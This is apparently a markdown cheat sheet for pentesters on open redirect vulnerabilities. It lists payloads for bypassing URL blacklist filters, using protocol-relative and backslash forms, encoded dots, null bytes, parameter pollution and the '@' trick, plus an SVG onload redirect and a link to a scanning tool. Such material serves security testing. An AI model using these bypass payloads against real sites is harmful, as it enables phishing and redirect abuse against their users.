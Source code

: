 # Open Redirect

Often a bug that brings impact when chained.

Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```

Using "//" to bypass "http" blacklisted keyword

```
//google.com
```

Using `/\/` to bypass `//` blacklisted keyword

```
\/\/google.com/
/\/google.com/
```

Using "/\" to bypass:

```
/\google.com
```

Using "%E3%80%82" to bypass "." blacklisted character

```
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```
//google%00.com
```

Using parameter pollution

```
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```
http://www.theirsite.com@yoursite.com/
```

## When helpdesk is used

Sometimes a website will redirect only to a helpdesk subdomain, this behavior is interesting because it is possible to create a custom subdomain a place a script that will redirect to an evil website. Making it a open redirect.

## Open Redirect uploading svg files

```
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.REMOVETHISlocation='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

# Tools

- [Oralyzer](https://github.com/r0075h3ll/Oralyzer)
